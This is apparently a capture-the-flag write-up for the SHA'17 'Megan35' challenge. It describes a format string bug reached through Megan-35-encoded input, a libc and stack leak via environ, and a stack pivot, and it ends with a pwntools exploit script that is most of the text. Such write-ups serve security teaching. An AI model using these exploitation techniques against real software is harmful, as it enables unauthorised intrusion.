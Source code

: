```yaml
---
layout: post
title: SHA'17 - Megan35 (200pts)
---
```


Megan-35 is an Encryption algorithim which has been directly implemented in this program. It takes a string, encrypts it
and then stores it in another buffer. Then however, it does
`printf(buf);`

Format String bug. If we send in a string which when decoded gives `%p` then we will trigger the fms.

Instead of building an encryptor for my program itself, I used an [online service](http://hackers.co.id/megan-35.php).

ASLR is disabled on the server but we still don't know any address. So start with leaking libc.
After leaking libc, use `%s` and provide address of **environ**. That will get us stack address.

Then I simply pivoted stack to where my ropchain is.

Full exploit code:
```python
#!/usr/bin/python
from pwn import *

p = process("./megan-35",env={"LD_PRELOAD":"./libc.so.6"})
#p = remote("megan35.stillhackinganyway.nl", 3535)
raw_input()
# Magic = 0xf7e5a819
#buf = p32(0xffffde4c)
# Overwrite with 0x080484e0.
buf = p32(0x08049f0c)

buf += (p32(0xdeadbeef))*3
buf += p32(0xf7e53940)
#buf += p32(0xf7e5a940)
buf += p32(0xdeadbeef)
buf += p32(0x80482d6)
buf += p32(0xdeadbeef)
buf += p32(0xdeadbeef)
# Overwrite de3c with address of our code (dc20). So stack pivoting kind of.
#buf += pad
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesSh31RZfq"
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvkLy5"

# environ address.
#buf += "OdNvoHesShW1RZfyOdNvoHesShW1RZerRt=yOdNvkLy5"

buf += "OdNvoHesShW1RZfyOdNvoHesShW1RZesTIbqoHesSgXV"
########

#buf = p32(0xf7fd1dbc)
buf = p32(0xf7fcadbc)
#buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmHesShR5"
buf += "OdNvmHesSh31RZfqOdNvmHesSh31RZfqOdNvmq55"

########

log.info("Length: " + str(len(buf)))
p.sendline(buf)

leak = p.recv()
leak = p.recv()
leak = leak.split()
print leak
leak = leak[len(leak)-1]
leak = leak[0:4]
leak = u32(leak)
print hex(leak)

p.interactive()

```

